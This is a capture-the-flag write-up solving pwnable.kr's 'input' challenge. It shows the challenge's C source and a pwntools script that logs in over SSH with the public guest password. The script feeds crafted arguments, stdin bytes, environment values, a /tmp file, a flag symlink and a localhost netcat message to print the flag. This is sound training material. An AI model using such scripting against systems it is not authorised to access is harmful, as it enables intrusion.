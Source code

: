 # input

## Description

> Mom? how can I pass my input to a computer program? <br> <br>
> ssh input2@pwnable.kr -p2222 (pw:guest)

## Solution

### Exploit

Let's examine the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <arpa/inet.h>

int main(int argc, char* argv[], char* envp[]){
	printf("Welcome to pwnable.kr\n");
	printf("Let's see if you know how to give input to program\n");
	printf("Just give me correct inputs then you will get the flag :)\n");

	// argv
	if(argc != 100) return 0;
	if(strcmp(argv['A'],"\x00")) return 0;
	if(strcmp(argv['B'],"\x20\x0a\x0d")) return 0;
	printf("Stage 1 clear!\n");	

	// stdio
	char buf[4];
	read(0, buf, 4);
	if(memcmp(buf, "\x00\x0a\x00\xff", 4)) return 0;
	read(2, buf, 4);
        if(memcmp(buf, "\x00\x0a\x02\xff", 4)) return 0;
	printf("Stage 2 clear!\n");
	
	// env
	if(strcmp("\xca\xfe\xba\xbe", getenv("\xde\xad\xbe\xef"))) return 0;
	printf("Stage 3 clear!\n");

	// file
	FILE* fp = fopen("\x0a", "r");
	if(!fp) return 0;
	if( fread(buf, 4, 1, fp)!=1 ) return 0;
	if( memcmp(buf, "\x00\x00\x00\x00", 4) ) return 0;
	fclose(fp);
	printf("Stage 4 clear!\n");	

	// network
	int sd, cd;
	struct sockaddr_in saddr, caddr;
	sd = socket(AF_INET, SOCK_STREAM, 0);
	if(sd == -1){
		printf("socket error, tell admin\n");
		return 0;
	}
	saddr.sin_family = AF_INET;
	saddr.sin_addr.s_addr = INADDR_ANY;
	saddr.sin_port = htons( atoi(argv['C']) );
	if(bind(sd, (struct sockaddr*)&saddr, sizeof(saddr)) < 0){
		printf("bind error, use another port\n");
    		return 1;
	}
	listen(sd, 1);
	int c = sizeof(struct sockaddr_in);
	cd = accept(sd, (struct sockaddr *)&caddr, (socklen_t*)&c);
	if(cd < 0){
		printf("accept error, tell admin\n");
		return 0;
	}
	if( recv(cd, buf, 4, 0) != 4 ) return 0;
	if(memcmp(buf, "\xde\xad\xbe\xef", 4)) return 0;
	printf("Stage 5 clear!\n");

	// here's your flag
	system("/bin/cat flag");	
	return 0;
}
```

There are 5 different stages we need to pass in order to get the flag:

### argv  

in the argv stage, we need to give a bunch of (command-line) arguments to the program. First, we need to make sure we give 100 arguments to the program. Since the first argument is allways the program's name - we actually only need to give 99 arguments. Then, the program expects the 65th argument to be `\x00` and the 66th argument to be `\x20\x0a\x0d`.

```python
from pwn import *
import os, time

con = ssh('input2', 'pwnable.kr', port=2222, password='guest')

# argv + env
payload = ['A']*64 + ['\x00'] + ['\x20\x0a\x0d'] + ['A']*33
p = con.process(['/home/input2/input'] + payload)
```

### stdio

In the stdio stage, we need to send the following bytes to stdin and stderr: `\x00\x0a\x00\xff` and `\x00\x0a\x02\xff`. Passing the first one is easy, but the second one is a bit tricky. At first glance, it looks like we need to figure out how to write to stderr. But, since the program is running on a terminal, stderr is the same as stdout. So, we can just send the bytes to stdin, and the terminal will echo them to stdout (which is the same as stderr).

```python
# stdio
p.send('\x00\x0a\x00\xff')
p.send('\x00\x0a\x02\xff')
```

### env

In the env stage, we need to set the environment variable `\xde\xad\xbe\xef` to `\xca\xfe\xba\xbe`. We can simply update the environment variables before we run the program:

```python
p = con.process(['/home/input2/input'] + payload, env={'\xde\xad\xbe\xef':'\xca\xfe\xba\xbe'})
```

### file

In the file stage, the program opens a file named `\x0a`, reads 4 bytes from it and compares them to `\x00\x00\x00\x00`. We can't just create a file named `\x0a` because we don't have sufficient permissions. So, we need to create the file in a different directory, and then run the program from that directory. We can do this by using the `cwd` argument in `process`.

Also, since we run the program from `/tmp/a`, we need to make sure that the program can find the flag. We can do this by creating a symlink to the flag in `/tmp/a`.

```python
# file
con[""" mkdir /tmp/a """]
con[""" python3 -c "with open('/tmp/a/\x0a','w') as f: f.write('\x00\x00\x00\x00')" """]
con[""" ln -s /home/input2/flag /tmp/a/ """]

...

p = con.process(['/home/input2/input'] + payload, env={'\xde\xad\xbe\xef':'\xca\xfe\xba\xbe'}, cwd = '/tmp/a')
```

### network

In the network stage, the program opens a socket on the port specified in the 67th argument. Then, it waits for a connection, and reads 4 bytes from it. If the bytes are `\xde\xad\xbe\xef`, the program prints the flag. We can use netcat to connect to the port and send the bytes:

```python
...

payload = ['A']*64 + ['\x00'] + ['\x20\x0a\x0d'] + ['5555'] + ['A']*32

...

# network
nc = con.process(['nc', 'localhost', '5555'])
nc.sendline('\xde\xad\xbe\xef')
```

### Putting it all together

```python
from pwn import *
import os, time

con = ssh('input2', 'pwnable.kr', port=2222, password='guest')

# file
con[""" mkdir /tmp/a """]
con[""" python3 -c "with open('/tmp/a/\x0a','w') as f: f.write('\x00\x00\x00\x00')" """]
con[""" ln -s /home/input2/flag /tmp/a/ """]

# argv + env
payload = ['A']*64 + ['\x00'] + ['\x20\x0a\x0d'] + ['5555'] + ['A']*32
p = con.process(['/home/input2/input'] + payload, env={'\xde\xad\xbe\xef':'\xca\xfe\xba\xbe'}, cwd = '/tmp/a')

# stdio
p.send('\x00\x0a\x00\xff')
p.send('\x00\x0a\x02\xff')

# network
nc = con.process(['nc', 'localhost', '5555'])
nc.sendline('\xde\xad\xbe\xef')

# result
p.interactive()
```

Running the script gives us the flag:

```
Mommy! I learned how to pass various input in Linux :)
```